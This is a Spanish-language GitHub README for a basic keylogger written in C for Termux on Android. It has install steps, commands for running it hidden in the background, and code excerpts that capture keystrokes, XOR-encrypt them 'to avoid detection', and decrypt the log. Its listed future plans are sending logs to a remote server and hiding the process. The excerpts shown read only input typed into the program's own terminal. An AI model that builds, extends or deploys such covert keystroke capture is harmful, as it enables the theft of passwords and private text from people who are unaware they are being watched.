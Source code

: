 
   <img src="https://github.com/V1nt3r4/keylogger_tool/blob/main/laptop-with-glowing-screen-table-dark-top-view-copy-space.jpg" />
 
# 🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección.

## 📌 Características

- ✅ Captura teclas sin necesidad de presionar Enter.
- ✅ Guarda las teclas en un archivo de log (`log.txt`).
- ✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.
- ✅ Corre en segundo plano usando `nohup` y `disown`.
- ✅ Descifrado de datos con un programa en C.
- ✅ Filtra caracteres no imprimibles para evitar datos corruptos.

## 📁 Estructura del Proyecto

```plaintext
📂 Keylogger
 ├── keylogger.c   # Captura y cifra teclas
 ├── decrypt.c     # Descifra el archivo log.txt
 ├── README.md     # Documentación del proyecto
 └── log.txt       # Archivo donde se guardan las teclas capturadas
```

## 🔧 Instalación y Uso

### 1️⃣ Clonar el repositorio

    git clone https://github.com/V1nt3r4/keylogger_tool.git
    cd keylogger_tool

### 2️⃣ Compilar el keylogger

    clang keylogger.c -o keylogger

### 3️⃣ Ejecutar el keylogger

    ./keylogger

🔹 Para ejecutarlo en segundo plano:

    nohup ./keylogger > /dev/null 2>&1 &
    disown

🔹 Para detenerlo:

    pkill keylogger

### 4️⃣ Ver el contenido del log (cifrado)

    cat log.txt

### 5️⃣ Descifrar el log

    clang decrypt.c -o decrypt
    ./decrypt

## 📜 Explicación del Código
### 🔹 1️⃣ Captura de teclas (get_key())

    char get_key() {
        struct termios oldt, newt;
        char ch;
        tcgetattr(STDIN_FILENO, &oldt);
        newt = oldt;
        newt.c_lflag &= ~(ICANON | ECHO);
        tcsetattr(STDIN_FILENO, TCSANOW, &newt);
        ch = getchar();
        tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
        return ch;
    }

📌 Lógica:

  Modifica la terminal para desactivar el buffer de línea y eco de caracteres.
    Captura una tecla en tiempo real.
    Restaura la configuración original de la terminal.

### 🔹 2️⃣ Escritura segura en el archivo (log.txt)

    if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
    }

📌 Lógica:

  Filtra caracteres imprimibles para evitar datos corruptos.
    Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.
    fflush(file); asegura que los datos se guarden inmediatamente.

### 🔹 3️⃣ Manejo de señales (CTRL+C)

    void handle_exit(int sig) {
        if (file) fclose(file);
        printf("\n[+] Keylogger detenido. Datos guardados en      %s\n", LOG_FILE);
      exit(0);
    }

📌 Lógica:

  Intercepta CTRL+C para evitar que se cierre inesperadamente.
    Cierra correctamente el archivo log.txt antes de salir.

### 🔹 4️⃣ Descifrado de datos (decrypt.c)

    int ch;
    while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
    }

📌 Lógica:

  Lee cada carácter del archivo log.txt.
    Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.
    Muestra el resultado en pantalla.


## 🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).
 
